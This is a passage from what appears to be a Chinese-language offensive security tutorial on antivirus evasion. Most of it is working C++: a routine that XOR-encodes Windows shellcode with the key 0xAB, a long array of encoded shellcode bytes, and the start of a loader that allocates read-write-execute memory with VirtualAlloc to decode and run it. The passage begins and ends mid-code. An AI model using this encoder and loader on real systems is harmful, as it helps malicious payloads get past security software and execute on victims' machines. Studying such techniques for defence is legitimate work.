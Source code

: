 ```
"\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00"
"\x53\xff\xd5";

int main()
  {
    for (unsigned int i = 0; i < sizeof shellcode; ++i)
      {
        if (i % 15 == 0)
          {
            std::cout << "\"\n\"";
          }
        unsigned char val = (unsigned int)shellcode[i] ^ 0xAB;
        std::cout << "\\x" << std::hex << (unsigned int)val;
      }
    _getch();
    return 0;
  }

```

我们可以看到，我们刚刚用`0xAB`对外壳代码进行了 XOR。此程序将生成以下输出：

![](../images/00091.jpeg)

# 创建解码器可执行文件

让我们使用新生成的外壳代码编写一个程序，该程序将生成一个可执行文件，如下所示：

```
#include <Windows.h>
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char encoded[] =
"\x57\x43\x29\xab\xab\xab\xcb\x22\x4e\x9a\x6b\xcf\x20\xfb\x9b"
"\x20\xf9\xa7\x20\xf9\xbf\x20\xd9\x83\xa4\x1c\xe1\x8d\x9a\x54"
"\x7\x97\xca\xd7\xa9\x87\x8b\x6a\x64\xa6\xaa\x6c\x49\x59\xf9"
"\xfc\x20\xf9\xbb\x20\xe1\x97\x20\xe7\xba\xd3\x48\xe3\xaa\x7a"
"\xfa\x20\xf2\x8b\xaa\x78\x20\xe2\xb3\x48\x91\xe2\x20\x9f\x20"
"\xaa\x7d\x9a\x54\x7\x6a\x64\xa6\xaa\x6c\x93\x4b\xde\x5d\xa8"
"\xd6\x53\x90\xd6\x8f\xde\x4f\xf3\x20\xf3\x8f\xaa\x78\xcd\x20"
"\xa7\xe0\x20\xf3\xb7\xaa\x78\x20\xaf\x20\xaa\x7b\x22\xef\x8f"
"\x8f\xf0\xf0\xca\xf2\xf1\xfa\x54\x4b\xf4\xf4\xf1\x20\xb9\x40"
"\x26\xf6\xc3\x98\x99\xab\xab\xc3\xdc\xd8\x99\xf4\xff\xc3\xe7"
"\xdc\x8d\xac\x54\x7e\x13\x3b\xaa\xab\xab\x82\x6f\xff\xfb\xc3"
"\x82\x2b\xc0\xab\x54\x7e\xc1\xae\xc3\x86\xe7\x8a\x9e\xc3\xa9"
"\xab\xae\x92\x22\x4d\xfb\xfb\xfb\xfb\xeb\xfb\xeb\xfb\xc3\x41"
"\xa4\x74\x4b\x54\x7e\x3c\xc1\xbb\xfd\xfc\xc3\x32\xe\xdf\xca"
"\x54\x7e\x2e\x6b\xdf\xa1\x54\xe5\xa3\xde\x47\x43\xca\xab\xab"
"\xab\xc1\xab\xc1\xaf\xfd\xfc\xc3\xa9\x72\x63\xf4\x54\x7e\x28"
"\x53\xab\xd5\x9d\x20\x9d\xc1\xeb\xc3\xab\xbb\xab\xab\xfd\xc1"
"\xab\xc3\xf3\xf\xf8\x4e\x54\x7e\x38\xf8\xc1\xab\xfd\xf8\xfc"
"\xc3\xa9\x72\x63\xf4\x54\x7e\x28\x53\xab\xd6\x89\xf3\xc3\xab"
"\xeb\xab\xab\xc1\xab\xfb\xc3\xa0\x84\xa4\x9b\x54\x7e\xfc\xc3"
"\xde\xc5\xe6\xca\x54\x7e\xf5\xf5\x54\xa7\x8f\x42\xda\x54\x54"
"\x54\xaa\x68\x82\x6d\xde\x6c\x68\x10\x5b\x1e\x9\xfd\xc1\xab"
"\xf8\x54\x7e\xab";

int main()
  {
    void *exec = VirtualAlloc(0, sizeof encoded, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    for (unsigned int i = 0; i < sizeof encoded; ++i)
      {
```